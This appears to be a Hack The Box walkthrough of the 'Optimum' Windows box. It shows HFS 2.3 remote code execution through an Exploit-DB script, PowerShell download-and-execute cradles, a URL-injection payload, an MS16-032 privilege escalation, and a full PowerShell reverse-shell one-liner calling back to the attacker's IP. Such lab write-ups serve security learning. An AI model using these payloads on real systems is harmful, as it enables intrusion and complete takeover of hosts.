

Today we are breaking into Optimum, another easy Windows box.

```
$ sudo nmap 10.10.10.8 -sV -sC

Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-10 08:38 CEST
Nmap scan report for 10.10.10.8
Host is up (0.011s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We have just a single port open, a HTTP server on port 80:



If we use `searchsploit` we can find out about a Remote Code Execution vulnerability in the version 2.3 of HttpFileServer that is also running on Optimum:

```
$ searchsploit httpfileserver

-------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                  |  Path
-------------------------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                     | windows/webapps/49125.py
-------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Apparently an exploit is already on my system in `49125.py`, but where?

```
$ sudo updatedb

$ locate 49125.py

/usr/share/exploitdb/exploits/windows/webapps/49125.py
```

We can run it to see the expected arguments:

```
$ python3 /usr/share/exploitdb/exploits/windows/webapps/49125.py

Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command
list index out of range
```

## Getting a foothold

We'll need to provide the host and port we want to attack. This is easy, just `10.10.10.8` and `80`. What command to run is much more difficult.

We can take a reverse shell payload, but first we'll need to identify our IP address:

```
$ ip a show dev tun0

3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none
    inet 10.10.14.3/23 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::1001/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::5885:f985:a3e2:1620/64 scope link stable-privacy proto kernel_ll
       valid_lft forever preferred_lft forever
```

We can pick port `4444` that the reverse shell will connect back to. I found [online a Powershell reverse shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1).

```
$ ls -l

total 4
-rw-rw-r-- 1 kali kali 1796 May 10 08:58 reverse.ps1

```

Now we can host the reverse shell Powershell script on our Kali machine, and the command that Optimum will execute will download this script and execute it.

```
$ python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

We also need to start up our listener on port `4444` for the reverse shell to connect back to:

```
$ nc -lvnp 4444

listening on [any] 4444 ...
```

Now we can construct our arguments to `49125.py` and run it:

```
$ python3 /usr/share/exploitdb/exploits/windows/webapps/49125.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.3/reverse.ps1')"
```

We can see that Optimum is definitely fetching our reverse shell script:

```
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [10/May/2025 09:01:51] "GET /reverse.ps1 HTTP/1.1" 200 -
```

And back over in the `nc` tab we have a connection:

```
$ nc -lvnp 4444

listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.8] 49167
whoami
optimum\kostas
PS C:\Users\kostas\Desktop>
```

We can claim the user flag:

```
PS C:\Users\kostas\Desktop> dir


    Directory: C:\Users\kostas\Desktop


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---         18/3/2017   2:11 ??     760320 hfs.exe
-ar--         16/5/2025   6:34 ??         34 user.txt


PS C:\Users\kostas\Desktop> cat user.txt
2bbf32c13b96d293637a1270ede5****
```

## Escalating to administrator

```
PS C:\Users\kostas\Desktop> systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ??
System Boot Time:          20/5/2025, 7:41:07 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.413 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.800 MB
Virtual Memory: In Use:    703 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

With such an old system I decided to copy Watson (checks for kernel exploits) over to the target using our HTTP server:

```
PS C:\Users\kostas\Desktop> Invoke-WebRequest -Uri "http://10.10.14.2/Watson.exe" -OutFile "C:\Users\kostas\Desktop\Watson.exe"
```

```
PS C:\Users\kostas\Desktop> ./Watson.exe
  __    __      _
 / / /\ \ \__ _| |_ ___  ___  _ __
 \ \/  \/ / _` | __/ __|/ _ \| '_ \
  \  /\  / (_| | |_\__ \ (_) | | | |
   \/  \/ \__,_|\__|___/\___/|_| |_|

                           v0.1

                  Sherlock sucks...
                   @_RastaMouse

 [*] OS Build number: 9600
 [*] CPU Address Width: 64
 [*] Processs IntPtr Size: 8
 [*] Using Windows path: C:\WINDOWS\System32

  [*] Appears vulnerable to MS15-051
   [>] Description: An EoP exists due to improper object handling in the win32k.sys kernel mode driver.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms15_051_client_copy_image.rb
   [>] Notes: None.

  [*] Appears vulnerable to MS15-076
   [>] Description: Local DCOM DCE/RPC connections can be reflected back to a listening TCP socket allowing access to an NTLM authentication challenge for LocalSystem, which can be replayed to the local DCOM activation service to elevate privileges.
   [>] Exploit: https://www.exploit-db.com/exploits/37768/
   [>] Notes: None.

  [*] Appears vulnerable to MS15-078
   [>] Description: An EoP exists due to a pool based buffer overflow in the atmfd.dll driver when parsing a malformed font.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms15_078_atmfd_bof.rb
   [>] Notes: None.

  [*] Appears vulnerable to MS16-032
   [>] Description: An EoP exists due to a lack of sanitization of standard handles in Windows' Secondary Logon Service.
   [>] Exploit: https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1
   [>] Notes: None.

  [*] Appears vulnerable to MS16-034
   [>] Description: An EoP exist when the Windows kernel-mode driver fails to properly handle objects in memory.
   [>] Exploit: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-034
   [>] Notes: None.

 [*] Finished. Found 5 vulns :)
```

```
PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
False
```

Since we are on 32 bit we'll need to switch to 64 bit before any of these exploits will work.

```
http://10.10.10.8/?search=%00{.exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString(%27http%3a//10.10.14.2/shell.ps1%27).}
```

```
$ cat ps2.txt
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.2/up.ps1')
```

```
$ tail up.ps1
            $CallResult = [Kernel32]::CloseHandle($ProcessInfo.hProcess)
            $CallResult = [Kernel32]::CloseHandle($ProcessInfo.hThread)
        }

        $StartTokenRace.Stop()
        $SafeGuard.Stop()
    }
}

Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.2/shell2.ps1')"
```

```
$ cat shell2.ps1
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.2',4445);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Now we are 64 bit and can run our exploit that will create a reverse shell as Administrator:

```
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.2/up.ps1')
     __ __ ___ ___   ___     ___ ___ ___
    |  V  |  _|_  | |  _|___|   |_  |_  |
    |     |_  |_| |_| . |___| | |_  |  _|
    |_|_|_|___|_____|___|   |___|___|___|

                   [by b33f -> @FuzzySec]

[!] Holy handle leak Batman, we have a SYSTEM shell!!
```

```
$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.8] 49194
whoami
nt authority\system
PS C:\Users\kostas\Desktop> cd C:\Users\Administrator\Desktop
PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-ar--         20/5/2025   7:41 ??         34 root.txt


PS C:\Users\Administrator\Desktop> type root.txt
34826a74ae0265570fcc422cae978d6b
```

There we are!
